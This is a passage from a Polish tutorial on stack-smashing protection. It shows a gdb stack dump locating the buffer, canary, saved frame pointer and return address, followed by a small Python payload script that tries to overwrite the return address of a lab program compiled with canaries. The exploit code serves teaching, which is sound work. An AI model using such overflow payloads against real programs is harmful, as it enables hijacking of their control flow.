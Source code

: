 </font>

------

Teraz spróbuję osiągnąć ten sam efekt stosując eksploit na programie skompilowanym z kanarkami stosu. Warto na początek zajrzeć do debuggera, aby zobaczyć, jak tym razem wygląda stos. Na wydruku poniżej widać stan stosu po wykonaniu funkcji `gets`, która zapisała (tylko!) bufor znakami `A`. Dzięki temu widać dokładnie, gdzie znajduje się bufor. Zgodnie z oczekiwaniami zmienna lokalna `some_variable` została umieszczona przed buforem, co zabezpiecza ją przed nadpisaniem przy przepełnieniu bufora. Najważniejsze jest jednak to, co znajduje się przed wskaźnikiem ramki stosu - kanarek. Łatwo go odnaleźć, ponieważ zaczyna się bajtem `0x00`.  

<font size=1>

```assembly
=> 0x4011c7 <main+58>:	mov    -0x54(%rbp),%eax
0x7fffffffdfa0:	0x00007fffffffe108	0x0000000100000000 
0x7fffffffdfb0:	0x0000000000f0b5ff	0x00000007000000c2  
#                                         ^^^^^^^^ <- some_variable (4 bajty)  
0x7fffffffdfc0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffdfd0:	0x4141414141414141	0x4141414141414141 #  | bufor
0x7fffffffdfe0:	0x4141414141414141	0x4141414141414141 #  |
0x7fffffffdff0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffe000:	0x00007fffffffe100	0xd648704df8fd3c00    
#                                       ^^^^^^^^^^^^^^^^^^ <- kanarek!
0x7fffffffe010:	0x0000000000401200	0x00007ffff7df3cb2   
#        SFP -> ^^^^^^^^^^^^^^^^^^      ^^^^^^^^^^^^^^^^^^ <- RET
```

</font>

Ponieważ układ na stosie trochę się zmienił, to dostosuję eksploit tak, aby dać mu "szansę" zadziałać. Zmiany polegają, między innymi, na dopasowaniu długości paddingu, dodaniu wartości dla kanarka i zmiany adresu funkcji `malicious`. Z założenia nie znam wartości kanarka, dlatego nadpiszę go po prostu ośmioma bajtami `0x45`. 

<font size=1>

```python
import sys
import struct

buffor = b'\x41'*64
padding = b'\x42'*8
canary = b'\x45'*8
rbp = b'\x44'*8
ret = 0x401176

sys.stdout.buffer.write(buffor)
sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(canary)
sys.stdout.buffer.write(rbp)
sys.stdout.buffer.write(struct.pack("Q", ret))
```

</font>
